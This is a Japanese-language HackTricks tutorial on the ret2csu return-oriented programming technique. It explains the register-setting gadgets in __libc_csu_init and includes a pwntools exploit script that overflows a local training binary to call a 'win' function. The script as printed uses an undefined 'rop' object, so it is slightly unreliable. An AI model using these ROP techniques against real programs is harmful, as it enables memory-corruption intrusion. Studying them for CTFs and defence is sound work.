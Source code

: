 # Ret2csu

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
- **ハッキングトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## 基本情報

**ret2csu**は、プログラムの制御を取得しようとしているが、通常使用するプログラムの動作を操作するための**ガジェット**を見つけることができない場合に使用されるハッキングテクニックです。

プログラムが特定のライブラリ（例：libc）を使用すると、プログラム内の異なる部分がどのように通信するかを管理するための組み込み関数がいくつかあります。これらの関数の中には、特に`__libc_csu_init`と呼ばれる1つの関数があることがあり、これは私たちの欠けているガジェットとして機能する隠れた宝石のようなものです。

### \_\_libc\_csu\_init内のマジックガジェット

`__libc_csu_init`には、目立つ2つの命令シーケンス（私たちの"マジックガジェット"）があります：

1. 最初のシーケンスでは、いくつかのレジスタ（rbx、rbp、r12、r13、r14、r15）に値を設定できます。これらは、後で使用する数値やアドレスを格納できるスロットのようなものです。
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
このガジェットを使用すると、スタックから値をポップしてそれらを制御することができます。

2. 2番目のシーケンスでは、設定した値を使用して次のことを行います:
* **特定の値を他のレジスタに移動**して、それらを関数のパラメータとして使用できるようにします。
* r15とrbxの値を合計し、rbxを8倍にした場所に**コールを実行**します。
```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```
## 例

`write()`のようなシステムコールを行いたいが、`rdx`と`rsi`レジスタに特定の値が必要な場合を想像してみてください。通常、これらのレジスタを直接設定するガジェットを探しますが、見つけることができません。

ここで**ret2csu**が登場します：

1. **レジスタの設定**：最初のマジックガジェットを使用して、スタックから値をポップしてrbx、rbp、r12（edi）、r13（rsi）、r14（rdx）、およびr15に格納します。
2. **2番目のガジェットの使用**：これらのレジスタが設定されたら、2番目のガジェットを使用します。これにより、選択した値を`rdx`と`rsi`に移動できます（それぞれr14とr13から）。これにより、関数呼び出しのためのパラメータが準備されます。さらに、`r15`と`rbx`を制御することで、計算および`[r15 + rbx*8]`に配置されるアドレスにある関数をプログラムに呼び出させることができます。

[**このテクニックを使用して説明した例**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation)があり、これが使用された最終的なエクスプロイトです。
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
前のエクスプロイトは**`RCE`**を行うためではなく、`win`という関数を呼び出すだけを意図しています（`win`のアドレスをstdinから取得し、ROPチェーン内でgetsを呼び出してr15に格納します）。第三引数の値は`0xdeadbeefcafed00d`です。
{% endhint %}

### なぜ直接libcを使用しないのか？

通常、これらのケースは[**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/)にも脆弱ですが、libcで直接見つかるガジェットだけでは簡単に制御できるパラメータよりも多くを制御する必要がある場合があります。たとえば、`write()`関数は3つのパラメータが必要であり、**これらを直接設定するためのガジェットを見つけることができない**ことがあります。
